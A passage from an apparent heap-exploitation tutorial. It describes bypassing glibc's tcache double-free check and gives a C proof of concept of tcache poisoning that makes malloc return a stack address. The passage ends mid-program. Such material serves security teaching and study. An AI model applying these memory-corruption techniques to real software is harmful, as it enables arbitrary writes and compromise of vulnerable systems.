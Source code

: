 ```c
  }
```
First, the free function will check if the chunk already exists within the tcache, if everything is ok
then it will allocate a new entry in which to store this new chunk.

This is the important part, in which it checks if the provided entry's key points to the tcache. If it
does, then it will iterate through the singly linked list and check if any pointers match the pointer
provided to us, if it discoveres a pointer to the same location, it will abort.

We can completely bypass this by simply making the key member point to anything that isnt the main
tcache per thread structure. If we can accomplish that by editing the freed tcache chunk, then we will
be able to exploit a double free an gain an arbitrary write.

### Tcache Poisoning

Next, we have a tcache poisoning attack, this vulnerability will also grant us with a pointer returned
by malloc, to any arbitrary location we want. This means that we will be able to control where we
want to read and write depending on the amount of control the programs gives us.

Lets take a look at the following program which will demo tcache poisoning:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <assert.h>
void __attribute__((constructor))s(){setbuf(stdin,NULL);setbuf(stdout,NULL);}
int main(int argc,char**argv) {
    char secret[50] = "I hate socks\x00";
    void*a=(void*)malloc(136),*b=(void*)malloc(136),*c,*d;
    fprintf(stderr,"This is a POC that will demonstrate tcache poisoning\nLets get started!\n"
"We want to trick malloc into returning a pointer to an arbitrary location in memory\n\n"
"First, lets allocate 2 chunks, both large enough to go in the tcache rather than the fastbin (136)\n"
"a: %lx @ %p\nb: %lx @ %p\n",*(long*)a,a,*(long*)b,b);
    fprintf(stderr,"Now, we want to designate a pointer that we want malloc to return to, lets use "
    "a local variable for this:\nsecret: \"%s\" @ %p\n"
    ,secret,&secret);
    free(a);
    free(b);
    fprintf(stderr,"Alright, now lets free the two chunks and cache them within the tcache freelist\n"
    "Lets take a look at the state of the tcache freelist:\n\nTCACHE:\n"
    "[idx: 7 ; size: 136] -> [idx: 7 ; size: 136]\n\n"
    "Now lets edit this freed chunk through, lets say, use after free or heap overflow\n"
    "We will be overwriting the next pointer of \"b\"\'s next pointer -> secret\n"
    );
    *(long*)b=(long)&secret;
    fprintf(stderr,"Okay, so now we have poisoned chunk b\'s next pointer!\nb->next = %ld",*(long*)b);
    fprintf(stderr,
    "So if we are to malloc twice, malloc will search through b\'s next/fd pointer\n"
    "and return the address of our stack variable!\n");
    c=(void*)malloc(136),d=(void*)malloc(136);
    fprintf(stderr,"Here we can see the addresses that malloc has returned:\n"
    "c: %p\nd: %p <-- variable on the stack!\n"
    ,c,d);
    assert(d==&secret);//check
```